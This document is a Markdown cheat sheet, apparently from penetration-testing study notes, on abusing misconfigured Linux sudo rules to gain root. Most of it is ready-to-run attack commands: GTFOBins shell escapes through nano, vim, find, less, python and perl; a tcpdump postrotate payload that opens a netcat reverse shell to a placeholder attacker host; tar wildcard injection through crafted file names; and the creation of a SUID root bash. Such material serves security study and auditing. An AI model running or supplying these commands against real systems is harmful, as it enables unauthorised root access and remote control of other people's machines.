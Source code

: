 # ⚡ Sudo Rights Abuse

## 🎯 Overview

Sudo privilege misconfigurations allow users to execute commands as root or other users, often providing direct privilege escalation vectors through GTFOBins exploitation.

## 🔍 Sudo Enumeration

### Check Sudo Privileges
```bash
# List sudo permissions
sudo -l

# Check without password (NOPASSWD entries)
sudo -l -U username

# Example output:
# User htb-student may run the following commands:
#     (root) NOPASSWD: /usr/sbin/tcpdump
```

### Sudo Configuration Files
```bash
# Main sudoers file
cat /etc/sudoers

# Additional configs
ls -la /etc/sudoers.d/
cat /etc/sudoers.d/*
```

## 🎯 Common Vulnerable Sudo Entries

### High-Risk Commands
```bash
# Text editors
(root) NOPASSWD: /usr/bin/nano
(root) NOPASSWD: /usr/bin/vim

# File operations
(root) NOPASSWD: /bin/cp
(root) NOPASSWD: /bin/mv

# Interpreters
(root) NOPASSWD: /usr/bin/python*
(root) NOPASSWD: /usr/bin/perl

# System tools
(root) NOPASSWD: /usr/bin/find
(root) NOPASSWD: /usr/bin/less
```

## 🚀 GTFOBins Exploitation

### Text Editor Abuse
```bash
# nano sudo exploit
sudo nano
# Ctrl+R Ctrl+X
# Command: reset; bash 1>&0 2>&0

# vim sudo exploit
sudo vim -c ':!/bin/bash'

# vi sudo exploit
sudo vi
# :!/bin/bash
```

### System Command Abuse
```bash
# find sudo exploit
sudo find . -exec /bin/bash \; -quit

# less sudo exploit
sudo less /etc/passwd
# !/bin/bash

# more sudo exploit
sudo more /etc/passwd
# !/bin/bash
```

### Interpreter Abuse
```bash
# python sudo exploit
sudo python -c "import os; os.system('/bin/bash')"
sudo python3 -c "import os; os.system('/bin/bash')"

# perl sudo exploit
sudo perl -e 'exec "/bin/bash";'
```

## 🔧 Advanced Sudo Abuse

### tcpdump Postrotate Exploitation
```bash
# Create payload script
cat > /tmp/.test << EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip 443 >/tmp/f
EOF

# Make executable
chmod +x /tmp/.test

# Execute with tcpdump
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

### Command Injection in Arguments
```bash
# If sudo allows: /bin/cp /home/user/file1 /etc/
# Try: sudo /bin/cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash

# If sudo allows: /usr/bin/systemctl restart *
# Try: sudo systemctl restart ../../bin/bash
```

### Wildcard Abuse in Sudo
```bash
# If sudo entry: (root) NOPASSWD: /bin/tar -czf /backup/*.tar.gz *
# Create malicious files:
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

## 🔍 Enumeration & Discovery

### Sudo Audit Script
```bash
#!/bin/bash
echo "=== SUDO RIGHTS ENUMERATION ==="

echo "[+] Current user sudo privileges:"
sudo -l 2>/dev/null || echo "No sudo access or password required"

echo "[+] Sudoers file (if readable):"
cat /etc/sudoers 2>/dev/null | grep -v "^#" | grep -v "^$"

echo "[+] Additional sudoers files:"
ls -la /etc/sudoers.d/ 2>/dev/null

echo "[+] GTFOBins check for sudo commands:"
sudo -l 2>/dev/null | grep -E "\(/.*\)" | while read line; do
    cmd=$(echo $line | grep -oE "/[^[:space:]]*" | xargs basename)
    echo "Check GTFOBins for: $cmd"
done
```

### Specific Command Analysis
```bash
# Extract allowed commands from sudo -l
sudo -l | grep -E "NOPASSWD:" | awk '{print $NF}'

# Check if commands exist in GTFOBins
for cmd in $(sudo -l | grep NOPASSWD | awk '{print $NF}' | xargs basename); do
    echo "Check GTFOBins for: $cmd"
done
```

## 🔑 Quick Reference

### Immediate Escalation Commands
```bash
# Check sudo first
sudo -l

# Common quick wins:
sudo nano -> Ctrl+R Ctrl+X -> reset; bash 1>&0 2>&0
sudo vim -> :!/bin/bash
sudo find -> sudo find . -exec /bin/bash \; -quit
sudo less -> !/bin/bash
sudo python -> sudo python -c "import os; os.system('/bin/bash')"
```

### Emergency Sudo Checks
```bash
# Can we run anything?
sudo -l

# Try common commands
sudo su -
sudo bash
sudo sh

# Check for wildcards
sudo -l | grep "\*"
```

## ⚠️ Dangerous Sudo Configurations

### Red Flags
- **NOPASSWD entries** - No authentication required
- **Wildcard permissions** - `*` in command paths
- **Text editors** - Direct root shell access
- **Interpreters** - Full system access
- **ALL permissions** - `(ALL) ALL` entries

### Privilege Escalation Vectors
1. **Direct shell access** - vim, nano, less
2. **Command execution** - find, awk, sed with -exec
3. **File manipulation** - cp, mv to overwrite system files
4. **Library hijacking** - LD_PRELOAD with sudo
5. **Environment variables** - Exploiting env_keep settings

---

*Sudo misconfigurations are among the most common privilege escalation vectors - a single poorly configured sudo entry can provide immediate root access through GTFOBins exploitation.* 